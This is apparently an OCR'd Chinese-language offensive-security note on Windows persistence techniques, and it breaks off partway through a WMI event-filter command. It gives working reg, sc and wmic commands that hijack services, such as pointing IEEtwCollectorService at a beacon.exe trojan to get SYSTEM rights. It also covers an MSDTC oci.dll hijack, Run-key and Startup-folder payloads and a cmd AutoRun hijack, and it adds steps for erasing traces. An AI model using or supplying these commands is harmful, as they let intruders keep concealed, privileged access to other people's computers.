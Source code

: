 清理痕迹

打开组策略找到脚本，删除即可

修改计算器启动服务调用的程序
启动服务有些需要手动启动，比如IEEtwCollectorService 服务，这里做后面的思路是，该服务本身对计算机运行没有影响，因此将其手动启动改成自动启动，并将其运行的脚本改成木马后门

类比一下windows10 没有IEEtwCollectorService 服务可以选择COMSysApp服务

篡改运行脚本
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\IEEtwCollector Service" /v ImagePath /t REG_EXPAND_SZ /d "c:\users\public\downloads\beacon.exe" /f

设置自动启动
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\IEEtwCollector Service" /v Start /t REG_DWORD /d 2 /f 

启动服务
sc start IEEtwCollectorService 
返回的是system权限

清理痕迹

将篡改的注册表改回来，并且删除目标木马

MSDTC 服务
MSDTC 服务默认会加载一个在windowss/system32下的不存在的 oci.dll，思路是将cs.dll 改名为oci.dll，放到system32下即可，该方法需要管理员用户权限

清理痕迹

删除的时候因为被多个进程调用，因此删不掉，这里可以换个思路修改其名称，重启再删除

启动项
启动项是会去指定文件夹下运行文件夹下的所有服务，这个文件夹是

C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup

C:\Users\test\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
也会运行以下注册表中的脚本

reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v test /t REG_SZ /d "c:\users\public\downloads\payload.exe" /f

需要高权限
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v test /t REG_SZ /d "c:\users\public\downloads\payload.exe" /f
清理痕迹

删除文件夹下的木马或者删除注册表中添加的恶意木马注册表，并找到木马位置删除

cmd 启动劫持
在cmd启动时回去注册表中查看是否有AutoRun的健值，如果有则会运行其中的脚本

reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor" /v AutoRun /t REG_SZ /d "c:\users\public\downloads\payload.exe" /f
清理痕迹

在管理员权限下删除注册表的值即可

wmic事件
注册一个事件过滤器，该过滤器是开机 2 分钟到 2 分半钟，由于是永久 WMI 事 件订阅，故需要管理员权限，最终获取到权限也是 system 权限
wmic 
/NAMESPACE:"\\root\subscription"PATH__EventFilterCREATE Name="TestEventFilter", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 20 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >=120 AND TargetInstance.SystemUpTime < 150" 
